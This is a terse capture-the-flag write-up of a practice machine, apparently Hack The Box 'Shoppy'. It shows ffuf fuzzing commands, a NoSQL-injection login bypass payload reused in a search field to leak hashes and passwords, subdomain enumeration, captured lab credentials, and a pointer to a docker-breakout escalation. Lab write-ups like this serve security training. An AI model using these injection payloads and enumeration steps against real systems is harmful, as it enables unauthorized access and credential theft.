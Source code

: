 loginb page at `/login`
![](Pasted%20image%2020221204165958.png)
* fuzz it a bunch - hits on NoSQL.txt
* ![](Pasted%20image%2020221204165841.png)
* `ffuf -u http://shoppy.htb/login -c -w /usr/share/seclists/Fuzzing/Databases/NoSQL.txt -X POST -d 'username=adminFUZZ&password=admin' -H 'Content-Type: application/x-www-form-urlencoded'`
* use `admin' || 'a'=='a` in the username field - any pass is fine
* ![](Pasted%20image%2020221204170128.png)

## Enumerating admin portal
* has user search function
* has download export function
* ![](Pasted%20image%2020221204170257.png)
* ![](Pasted%20image%2020221204170306.png)
* try same payload in search
* ![](Pasted%20image%2020221204170458.png)
	* `6ebcea65320589ca4f2f1ce039975995` - probably md5??
	* `remembermethisway`

# User Josh
* ssh doesnt work
* no other open ports that could be used to login but there was the 'beta' site reference on the landing page
	* ![](Pasted%20image%2020221204170757.png)
	* subdomain enum??
	* `ffuf -u http://shoppy.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.shoppy.htb" -fs 169`
	* negative response return w/response size 169
	* ![](Pasted%20image%2020221204183037.png)
	* username: jaeger // password: Sh0ppyBest@pp!
	* ![](Pasted%20image%2020221204183132.png)
	* ![](Pasted%20image%2020221204183240.png)
	* creds fail for the password-manager
	* ![](Pasted%20image%2020221204183358.png)
	* ![](Pasted%20image%2020221204183420.png)
	* `Sample` works for the master pass
	* ![](Pasted%20image%2020221204183513.png)
	* ![](Pasted%20image%2020221204183547.png)
	* https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation
	* ![](Pasted%20image%2020221204183624.png)
	* ![](Pasted%20image%2020221204183649.png)